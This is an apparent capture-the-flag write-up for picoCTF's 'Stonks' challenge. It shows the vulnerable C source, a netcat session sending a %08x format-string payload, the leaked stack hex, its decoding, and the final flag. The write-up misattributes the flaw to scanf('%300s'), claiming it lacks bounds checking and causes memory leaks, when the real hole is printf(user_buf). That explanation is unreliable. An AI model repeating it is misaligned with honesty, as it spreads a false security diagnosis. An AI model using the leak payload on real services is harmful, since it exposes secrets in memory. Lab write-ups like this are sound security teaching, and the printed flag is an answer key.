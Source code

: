 # Stonks

## Description
```
I decided to try something noone else has before. 
I made a bot to automatically trade stonks for me using AI and machine learning. 
I wouldn't believe you if you told me it's unsecure! `nc mercury.picoctf.net 20195`
```

## Provided Files
```
- vuln.c
```

## Writeup

Starting off we should take a look at the provided file. <br/>
Most of the time when analyzing such files we want to look for functions which process our input in an insecure way. <br/>
```c
int buy_stonks(Portfolio *p) {
	if (!p) {
		return 1;
	}
	char api_buf[FLAG_BUFFER];
	FILE *f = fopen("api","r");
	if (!f) {
		printf("Flag file not found. Contact an admin.\n");
		exit(1);
	}
	fgets(api_buf, FLAG_BUFFER, f);

	int money = p->money;
	int shares = 0;
	Stonk *temp = NULL;
	printf("Using patented AI algorithms to buy stonks\n");
	while (money > 0) {
		shares = (rand() % money) + 1;
		temp = pick_symbol_with_AI(shares);
		temp->next = p->head;
		p->head = temp;
		money -= shares;
	}
	printf("Stonks chosen\n");

	// TODO: Figure out how to read token from file, for now just ask

	char *user_buf = malloc(300 + 1);
	printf("What is your API token?\n");
	scanf("%300s", user_buf);
	printf("Buying stonks with token:\n");
	printf(user_buf);

	// TODO: Actually use key to interact with API

	view_portfolio(p);

	return 0;
}
```

In here we have a vulnerability in the `scanf("%300s", user_buf);` function call. <br/>
The `%300s` format specifier in the `scanf` function indicates that it expects to read a string of characters from the input, with a maximum field width of `300 characters`. The input characters will then be read into the `user_buf` buffer. <br/>

> [!NOTE]
> It's important to note that `%300s` does not perform bounds checking on the input, which may lead to memory leaks. <br/>

Knowing this we can use `format specifiers` like `%08x` to leak 4 bytes from the current memory stack at a time in `hex-encoded` format.
```sh
$ nc mercury.picoctf.net 20195
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x
Buying stonks with token:
092753f00804b000080489c3f7fabd80ffffffff0000000109273160f7fb9110f7fabdc7000000000927418000000003092753d0092753f06f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e3534303664303664ff99007df7fe6af8f7fb9440d0f3e4000000000100000000f7e48ce9f7fba0c0f7fab5c0f7fab000ff99e7f8f7e3968df7fab5c008048ecaff99e80400000000f7fcdf090804b000
Portfolio as of Tue Feb 20 17:57:31 UTC 2024


3 shares of ISP
1 shares of YQY
21 shares of S
138 shares of R
5 shares of PL
118 shares of I
419 shares of F
506 shares of QY
Goodbye!
``` 

Looking at the output it seems like it worked. <br/>
Using the `from hex` module in [CyberChef](https://cyberchef.org/#recipe=From_Hex('Auto')&input=MDkyNzUzZjAwODA0YjAwMDA4MDQ4OWMzZjdmYWJkODBmZmZmZmZmZjAwMDAwMDAxMDkyNzMxNjBmN2ZiOTExMGY3ZmFiZGM3MDAwMDAwMDAwOTI3NDE4MDAwMDAwMDAzMDkyNzUzZDAwOTI3NTNmMDZmNjM2OTcwN2I0NjU0NDMzMDZjNWY0OTM0NWY3NDM1NmQ1ZjZjNmMzMDZkNWY3OTVmNzkzMzZlMzUzNDMwMzY2NDMwMzY2NGZmOTkwMDdkZjdmZTZhZjhmN2ZiOTQ0MGQwZjNlNDAwMDAwMDAwMDEwMDAwMDAwMGY3ZTQ4Y2U5ZjdmYmEwYzBmN2ZhYjVjMGY3ZmFiMDAwZmY5OWU3ZjhmN2UzOTY4ZGY3ZmFiNWMwMDgwNDhlY2FmZjk5ZTgwNDAwMDAwMDAwZjdmY2RmMDkwODA0YjAwMA) we can than read the actual result. <br/>
```

--------------------------------------
ocip{FTC0l_I4_t5m_ll0m_y_y3n5406d06d}
--------------------------------------

```

The flag seems to be surrounded by useles binary and the `endianness` seem to be swapped. <br/>
Knowing this we can use the `swap endianness` module from [CyberChef](https://cyberchef.org/#recipe=Swap_endianness('Hex',4,true)From_Hex('Auto')&input=MDkyNzUzZjAwODA0YjAwMDA4MDQ4OWMzZjdmYWJkODBmZmZmZmZmZjAwMDAwMDAxMDkyNzMxNjBmN2ZiOTExMGY3ZmFiZGM3MDAwMDAwMDAwOTI3NDE4MDAwMDAwMDAzMDkyNzUzZDAwOTI3NTNmMDZmNjM2OTcwN2I0NjU0NDMzMDZjNWY0OTM0NWY3NDM1NmQ1ZjZjNmMzMDZkNWY3OTVmNzkzMzZlMzUzNDMwMzY2NDMwMzY2NGZmOTkwMDdkZjdmZTZhZjhmN2ZiOTQ0MGQwZjNlNDAwMDAwMDAwMDEwMDAwMDAwMGY3ZTQ4Y2U5ZjdmYmEwYzBmN2ZhYjVjMGY3ZmFiMDAwZmY5OWU3ZjhmN2UzOTY4ZGY3ZmFiNWMwMDgwNDhlY2FmZjk5ZTgwNDAwMDAwMDAwZjdmY2RmMDkwODA0YjAwMA) to extract the real flag. <br/>
Obtaining the actual flag `picoCTF{I_l05t_4ll_my_m0n3y_6045d60d}` concludes this writeup. 

